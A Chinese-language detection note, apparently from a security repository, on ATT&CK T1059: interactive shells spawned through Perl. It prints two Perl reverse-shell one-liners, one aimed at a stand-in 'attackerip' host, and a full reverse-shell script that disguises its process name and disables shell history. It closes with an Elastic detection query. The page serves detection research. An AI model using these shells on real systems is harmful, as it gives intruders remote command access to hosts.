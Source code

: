 # T1059-linux-通过Perl生成的交互式shell

## 来自ATT&CK的描述

攻击者可能滥用命令和脚本解释器来执行命令、脚本或二进制文件。这些接口和语言提供了与计算机系统交互的方式，并且是许多不同平台的共同特征。大多数系统都带有一些内置的命令行界面和脚本功能，例如:macOS和Linux发行版包括一些Unix Shell，而Windows安装包括Windows Command Shell和PowerShell。

还有跨平台解释器，例如Python ，以及通常与客户端应用程序相关的解释器，例如JavaScript和Visual Basic。 

攻击者可能会滥用Unix shell来执行各种命令或有效载荷。可以通过命令和控制通道或在横向移动期间（例如使用SSH）访问交互式外壳。攻击者还可以利用Shell脚本在受害者上传递或执行多个命令，或者作为用于持久性的有效载荷的一部分。

## 测试案例

通过Perl生成终端(tty)。攻击者可以将简单的反向shell升级为完全获得对主机的初始访问权限后的交互式tty。

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
#用这条命令，唯一的不同是提示符变成了sh-4.1#，实现原理和前面的bash差不多
```

依赖于/bin/sh的shell：这条语句比上面的更为简短，而且确实不需要依赖/bin/sh

```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

完整版的perl反弹shell脚本

```perl
#!/usr/bin/perl -w
# perl-reverse-shell - A Reverse Shell implementation in PERL
use strict;
use Socket;
use FileHandle;
use POSIX;
my $VERSION = "1.0";

# Where to send the reverse shell.  Change these.
my $ip = '127.0.0.1';
my $port = 1234;

# Options
my $daemon = 1;
my $auth   = 0; # 0 means authentication is disabled and any
        # source IP can access the reverse shell
my $authorised_client_pattern = qr(^127\.0\.0\.1$);

# Declarations
my $global_page = "";
my $fake_process_name = "/usr/sbin/apache";

# Change the process name to be less conspicious
$0 = "[httpd]";

# Authenticate based on source IP address if required
if (defined($ENV{'REMOTE_ADDR'})) {
    cgiprint("Browser IP address appears to be: $ENV{'REMOTE_ADDR'}");

    if ($auth) {
        unless ($ENV{'REMOTE_ADDR'} =~ $authorised_client_pattern) {
            cgiprint("ERROR: Your client isn't authorised to view this page");
            cgiexit();
        }
    }
} elsif ($auth) {
    cgiprint("ERROR: Authentication is enabled, but I couldn't determine your IP address.  Denying access");
    cgiexit(0);
}

# Background and dissociate from parent process if required
if ($daemon) {
    my $pid = fork();
    if ($pid) {
        cgiexit(0); # parent exits
    }

    setsid();
    chdir('/');
    umask(0);
}

# Make TCP connection for reverse shell
socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
if (connect(SOCK, sockaddr_in($port,inet_aton($ip)))) {
    cgiprint("Sent reverse shell to $ip:$port");
    cgiprintpage();
} else {
    cgiprint("Couldn't open reverse shell to $ip:$port: $!");
    cgiexit();
}

# Redirect STDIN, STDOUT and STDERR to the TCP connection
open(STDIN, ">&SOCK");
open(STDOUT,">&SOCK");
open(STDERR,">&SOCK");
$ENV{'HISTFILE'} = '/dev/null';
system("w;uname -a;id;pwd");
exec({"/bin/sh"} ($fake_process_name, "-i"));

# Wrapper around print
sub cgiprint {
    my $line = shift;
    $line .= "<p>\n";
    $global_page .= $line;
}

# Wrapper around exit
sub cgiexit {
    cgiprintpage();
    exit 0; # 0 to ensure we don't give a 500 response.
}

# Form HTTP response using all the messages gathered by cgiprint so far
sub cgiprintpage {
    print "Content-Length: " . length($global_page) . "\r
Connection: close\r
Content-Type: text\/html\r\n\r\n" . $global_page;
}
```

## 检测日志

无

## 测试复现

无

## 测试留痕

无

## 检测规则/思路

### elastic

```yml
query = '''
event.category:process and event.type:(start or process_started) and process.name:perl and
  process.args:("exec \"/bin/sh\";" or "exec \"/bin/dash\";" or "exec \"/bin/bash\";")
'''
```

### 建议

对数据源要求较高，需要正确配置相关策略记录相关命令参数，才能够使用该规则。

## 参考推荐

MITRE-ATT&CK-T1059

<https://attack.mitre.org/techniques/T1059>

Linux下反弹shell的种种方式

<https://www.cnblogs.com/r00tgrok/p/reverse_shell_cheatsheet.html>

Interactive Terminal Spawned via Perl

<https://github.com/elastic/detection-rules/blob/main/rules/linux/execution_perl_tty_shell.toml>